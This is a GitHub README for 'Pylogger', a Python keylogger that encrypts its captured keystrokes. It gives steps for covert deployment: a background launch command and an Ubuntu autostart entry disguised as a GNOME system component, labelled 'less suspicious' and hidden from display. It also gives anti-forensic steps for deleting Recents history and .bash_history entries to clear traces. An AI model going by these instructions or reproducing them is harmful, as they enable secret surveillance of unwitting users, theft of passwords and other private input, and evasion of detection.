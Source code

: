# Pylogger
An advance keylogger built using python2 that supports encryption of logged keystrokes using password. 

## How to deploy the keylogger?
> Expected deploying time: 2 to 3 mins [Approx.]

- Put the entire folder deep in any directory [remember the location]
- Choose a location to store the output file (keystroke logs) [remember the location]
- The following command fires up the keylogger
```shell
nohup python /location/to/file/pylogger.py [YOUR PASSWORD] /different/location/for/output/sys.conf
```

### To automatically start the keylogger at boot time (in Ubuntu)
- Go to '/etc/xdg/autostart/'
- Create an [less suspicious] entry: 'org.gnome.SettingsDaemon.Sysconfig.desktop'
```shell
sudo gedit /etc/xdg/autostart org.gnome.SettingsDaemon.Sysconfig.desktop
```
- Write the following content in the file
```
[Desktop Entry]
Type=Application
Name=SystemConfig
Exec=nohup python location/to/python/script.py vsk?0 /different/location/for/output/sys.conf
NoDisplay=true
Comment=Helper program for starting system apps
X-GNOME-Autostart-enabled=true
```

### For security reason [clearing your traces on the system]
- Remove entries from "Recents" ---> ubuntu recents [Settings > Privacy > History]
- Remove your commands from '.bash_history' file ---> terminal history

## License
```
MIT License

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.
```

## Contributing to Pylogger
All pull requests are welcome!

